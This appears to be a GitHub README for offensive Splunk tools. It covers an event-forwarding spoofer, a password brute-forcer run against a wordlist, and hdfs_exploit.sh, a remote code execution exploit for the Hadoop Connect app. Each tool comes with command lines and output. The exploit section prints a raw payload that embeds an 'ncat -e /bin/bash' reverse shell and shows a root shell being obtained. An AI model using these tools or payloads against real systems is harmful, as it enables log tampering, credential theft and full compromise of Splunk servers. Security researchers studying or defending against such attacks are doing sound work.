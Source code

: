 ## [spooforward.py]

[i] Splunk forward spoofer v0.1

>USAGE: ./spooforward.py [options]:
>
>	-r, --host <file>	Server address (indexer instance)
>	-p, --port <address>	Server port (default: 9997)
>	-s, --source <pid>	Spoofed source ex. udp:514
>	-l, --shost <num>	Spoofed host address
>	-t, --type <type>	Source type
>	-i, --index <index>	Index to forward to ex. default, main
>	-m, --message <message>	 Spoofed event content (limit: 255)
>	-d, --debug	 Enable debugging
>	-c, --check	 Scan host
>	-h, --help	 This help message


Example:

```bash
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./spooforward.py -c -d -r 127.0.0.1 -l spoofedaddr.net -i main -t spoofedtype -s spoofedsource  -m "some event message"

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] '\xfe\x03\x16source::spoofedsource\x16host::spoofedaddr.net\x0cspoofedtype\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04main\x12some event message'

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT
```


## [splunk_brute.sh]

```bash
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./splunk_brute.sh test_acc /usr/share/wordlists/rockyou.txt 127.0.0.1 8000

[!] Bruteforcing password for test_acc on 127.0.0.1...
.......................................................
SUCCESS! U: test_acc P: 1234567890

...Terminated
```

## [hdfs_exploit.sh]

Splunk Hadoop Connect Remote Code Execution

This script exploits path traversal vulnerability in Splunk app "Hadoop Connect"
export_hdfs.py script can be abused by specially crafted event to drop its contents
into /opt/splunk/bin/scripts/ executable directory.

This exploit need to meet several requirements:
* Ability to craft logs on system (see spooforward.py)
* Have HadoopConnect app installed

>Usage:
>        case "${option}"
>        in
>                h) rhost=${OPTARG};; # Remote host
>                p) rport=${OPTARG};; # Remote port
>                l) lhost=${OPTARG};; # Local host
>                s) lport=${OPTARG};; # Local port
>		o) proto=${OPTARG};; # Protocol [http|https]
>		m) marker=${OPTARG};;# Unique string to search for
>		u) uname=${OPTARG};; # Splunk user
>		w) passw=${OPTARG};; # Splunk password
>		c) scanhost="-c";;   # Scan host for spoofing capabilities
>		e) spoof="NO";;      # Dont try to spoof event (already there)



```bash
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./hdfs_exploit.sh -c -h 127.0.0.1 -m w00tw00tw00t

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] "\xfe\x03\nsource::.\thost::..\x02.\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04mainY#!/usr/bin/python\nimport os;os.system('ncat -e /bin/bash 127.0.0.1 4444');# w00tw00tw00t "

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT

[PWN] Waiting for shell...
Listening on [0.0.0.0] (family 0, port 4444)
nc -lvp${lport}
Connection from localhost 44056 received!
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/splunk/etc/apps/search/bin
uname -a
Linux postern 4.8.0-kali2-amd64 #1 SMP Debian 4.8.15-1kali1 (2016-12-23) x86_64 GNU/Linux
```



